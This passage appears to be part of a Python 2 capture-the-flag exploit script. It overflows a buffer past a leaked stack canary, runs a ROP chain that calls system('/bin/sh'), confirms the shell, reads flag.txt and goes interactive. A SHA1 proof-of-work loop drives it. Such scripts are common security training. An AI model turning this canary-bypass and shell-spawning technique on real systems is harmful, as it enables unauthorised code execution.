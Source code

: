 ```python
    dummy = 0x4141414141414141
    ROP  = "".join([
        # ### dup(4, 0)
        # p64(pop_rsi_ret),   # pop rsi ; pop r15 ; ret
        # p64(0x0),           # value for rsi
        # p64(dummy),         # value for r15
        # p64(pop_rdi_ret),   # pop rdi ; ret
        # p64(0x4),           # value for rdi
        # p64(dup2_addr),     # call dup(4, 0)

        ### dup(4, 1)
        # p64(pop_rsi_ret),   # pop rsi ; pop r15 ; ret
        # p64(0x1),           # value for rsi
        # p64(dummy),         # value for r15
        # p64(pop_rdi_ret),   # pop rdi ; ret
        # p64(0x4),           # value for rdi
        # p64(dup2_addr),     # call dup(4, 1)

        ### dup(4, 2)
        # p64(pop_rsi_ret),   # pop rsi ; pop r15 ; ret
        # p64(0x2),           # value for rsi
        # p64(dummy),         # value for r15
        # p64(pop_rdi_ret),   # pop rdi ; ret
        # p64(0x4),           # value for rdi
        # p64(dup2_addr),     # call dup(4, 2)

        p64(pop_rdi_ret),    # pop rdi ; ret
        p64(bin_sh_str_adr), # "/bin/sh" in rdi
        p64(system_addr),    # ret to system
    ])

    # Sometimes addresses might contain a '\n' so we need to restart
    if "\n" in ROP:
        print "ABORT!! ROP contains a //n"
        print ROP
        print "ABORT!! ROP contains a //n"
        return 0

    # Send the payload
    payload = pad1 + p64(int(canary, 16)) + pad2 + ROP
    send(s, payload)

    recv_until(s, "Enter time zones separated by whitespace or q to quit\n")
    send(s, "q")
    recv_until(s, "See you!\n")
    send(s, "echo HELLO", should_print = True)
    print recv_until(s, "HELLO\n"),
    print "$$$ SHELL $$$"
    send(s, "cat flag.txt", should_print = True)
    print "$$$ SHELL $$$"

    interact(s)
    return 0

# MAIN
print "*******************************************************************************************************"
print "*** SOLVING find an x such that 26 last bits of SHA1(x) are set, len(x)==29 and x[:24]==<something> ***"
print "*******************************************************************************************************"
while go() == -1:
    pass
```